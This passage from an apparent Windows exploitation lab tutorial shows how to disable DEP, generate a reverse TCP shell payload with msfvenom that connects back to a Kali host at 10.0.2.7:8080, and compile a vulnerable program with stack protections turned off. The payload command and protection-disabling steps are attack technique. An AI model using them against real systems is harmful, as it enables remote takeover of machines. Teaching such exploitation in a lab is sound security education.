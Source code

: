     * Notice the output `"Hi~ I'm Evil! * o *"` , the evil function was never called in the original function! This means we can use this as a means to execute arbitrary shellcode.

### Exploitation Part 2
Before executing this we will need to ensure DEP is not enabled on the Windows system.
1. Open a CMD prompt as an administrator

2. Run the following command and observe the output, if the output is a `1` or `3` then DEP is enabled and we should disable it on the system to prevent future issues.
    ```
    $  wmic OS Get DataExecutionPrevention_SupportPolicy
    ```
3. Restart your system.

Now we can start observing the malicious program as it executes!
1. Create the [Exploit3-2.cpp](./SourceCode/Exploit/exploit3-2.cpp) file using an editor like [Notepad++](https://notepad-plus-plus.org/) as shown below.

    <img src="Images/I65.png" width=600>

2. Generate a reverse shell for windows using Metasploit on the Kali Linux Machine.
    ```
    $ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.0.2.7 LPORT=8080 EXITFUNC=process -f c -v SHELL
    ```
    * `msfvenom`: The MSFVenom command used to generate shellcode.
    * `-a x86`: Generate the shellcode for a x86 32 bit architecture.
    * `--platform Windows`: Generate the shellcode for a Windows machine.
    * `-p `: Payload we are generating shellcode for.
        * `windows/shell_reverse_tcp`: Reverse TCP payload for Windows
        * `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP 10.0.2.7
        * `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080
        * `EXITFUNC=process`: Use the process exit function
    * `-f c`: Output in a format useable in C code.
    * `-v SHELL`: Specify SHELL as the variable name.
3. Compile [Exploit2-2.cpp](./SourceCode/Exploit/exploit2-2.cpp) with the following command:
    ```
    $ cl  /GS- /Z7 /c .\E3-2.cpp
    ```
    * `cl`: The Visual Studio C/C++ Compiler.
    * `/GS-`: Compile with Buffer Overflow Protections disabled.
    * `/Z7`: Compile with Debugging information, this is useful in the event you need to debug the program!
